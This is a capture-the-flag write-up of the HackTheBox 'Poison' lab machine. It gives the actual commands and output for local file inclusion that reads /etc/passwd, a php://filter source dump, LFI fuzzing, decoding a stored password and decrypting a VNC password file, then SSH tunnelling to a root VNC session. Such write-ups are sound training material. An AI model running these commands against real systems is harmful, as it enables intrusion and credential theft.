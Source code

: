 ```yaml
---
title: "Hack the box - Poison"
date: 2018-08-10T11:28:47+02:00
draft: false
---
```


This is my writeup of the [poison](https://www.hackthebox.com/machines/poison) machine from HackTheBox.eu.
The machine is currently 138 days old, it has 6955 user owns and 4330 system owns, and is rated 3.8 in difficulty.

![HTB status](htb-status.png)

## Scanning and Enumeration

I started out with a scan of the machine to find any open ports `nmap -Pn -p1-65535 -A -v -sS 10.10.10.84`. The resulting [scan](nmap_scan) showed the following open ports

- 22 OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
- 80 Apache/2.4.29 (FreeBSD) PHP/5.6.32
- 5802/tcp open http Bacula http config
- 5902/tcp open vnc VNC (protocol 3.8)
- 5903/tcp open vnc VNC (protocol 3.8)
- 6002/tcp open X11 (access denied)
- 6003/tcp open X11 (access denied)

I noticed a lot of VNC sessions, but decided to start out with the web server.

## Owning User

When I opened the site the following screen greeted me

![index](index.png)

Without testing the scripts the website suggested, I immediately tested for local file include (LFI) and remote file inclusion (RFI). This lead me somewhat off track as I only needed the scripts in order to own the user.

First, I manually tried to get LFI by including `../../../../../etc/passwd`. This succeeded (see [/etc/passwd/](passwd)), and I found the `charix` user at the very bottom (this is also the name of the machine creator).

```sh
$ curl http://10.10.10.84/browse.php?file=../../../../../etc/passwd
# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
---- snip ----
charix:*:1001:1001:charix:/home/charix:/bin/csh

```

Trying different php LFI techniques (see [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal)) I could leverage `php://filter` to get the source code for the vulnerable inclusion script

```sh
$ curl -s "http://10.10.10.84/browse.php?file=php://filter/convert.base64-encode/resource=browse.php" | base64 -d
<?php
include($_GET['file']);
?>
```

Further LFI fuzzing using `dirb` and the `LFI-jhaddix` file from SecLists gave me a lot of files, from which I could not use anything `dirb http://10.10.10.84/browse.php?file= SecLists/Fuzzing/LFI-JHADDIX.txt  -f`. See [LFI-results](fuzz_lfi-jhaddix) for the files it got me.

Getting back on track using the scripts the website suggested my:
Using list-files got me

```php
Array
(
    [0] => .
    [1] => ..
    [2] => browse.php
    [3] => index.php
    [4] => info.php
    [5] => ini.php
    [6] => listfiles.php
    [7] => phpinfo.php
    [8] => pwdbackup.txt
)
```

Reading `pwdbackup.txt` got me

```base64
Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```

Decoding it 13 times gives `Charix!2#4%6&8(0`, which enabled me to log in `ssh charix@10.10.10.84`.

## Owning Root

During the enumeration I saw a lot of VNC sessions. One of these were started by root

```sh
charix@Poison:/tmp % ps auxww  | grep vnc
root   529   0.0  0.9  23620  8872 v0- I    09:01   0:00.05 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -localhost -nolisten tcp :1
charix 777   0.0  0.0    412   328  3  R+   09:06   0:00.00 grep vnc
```

This could be the entry point to owning root but I didn't know how.
What I could see was that there was a `.vnc` folder in the home folder of the `charix`. It contained a `passwd` file with some gibberish.

```sh
$ cat /home/charix/.vnc/passwd | xxd -p
a7cd4c5eab70e29b
```

After some searching around I found that it was the obfuscated password of the user.
As it was obfuscated there had to be someone who could deobfuscate it. A long story short, the password is DES encrypted by a static key.
But deobduscating the password of Charix made no sense as I already had access as that user.
I stopped with the vnc attack vector.

When SSH'ing in, the file `secret.zip` was located in the home directory. I copied the file to my local machine and unzipped it, which revealed the file `secret`.

```sh
$ scp ssh charix@10.10.10.84:secret.zip
$ unzip secret.zip #unzipped the file 'secret'
$ xxd -p secret
bda85b7cd5967a21
```

The contents of the file looked very similar to the `passwd` file for the vnc service for the Charix user.
I then tried to use the deobfuscater I found earlier, and sure enough it gave me a password

```sh
$ git clone https://github.com/jeroennijhof/vncpwd.git
$ cd vncpwd
$ gcc -o vncpwd vncpwd.c d3des.c
$ ./vncpwd ../secret
Password: VNCP@$$!
```

I then tried to log on to session 1 (the session number can be seen in the `ps` output above)

```sh
$ vncviewer 10.10.10.84:1
vncviewer: ConnectToTcpAddr: connect: Connection refused
Unable to connect to VNC server
```

Bummer. The session started by root was probably protected somehow.

I found an [article](http://www.penguintutor.com/linux/tightvnc) describing how to secure TightVNC on a raspberry pi, by only allowing connections from localhost. To get access he would use ssh port forwarding:

```
$ ssh charix@10.10.10.84 -L 5901:localhost:5901
```

This creates a tcp listener on my Kali box on port 5900. When a connection is established on that port it forwards the traffic through ssh and makes a connection to localhost (on the poison machine) on port 5901.

With the tunnel set up I tried to connect again

```
$ vncviewer localhost:1
```

Success! It prompted for a password, and handed me a vnc session:

![Getting root flag](vnc_root.png)

I couldn't figure out how to copy fro the session, and I had to manually copy it.
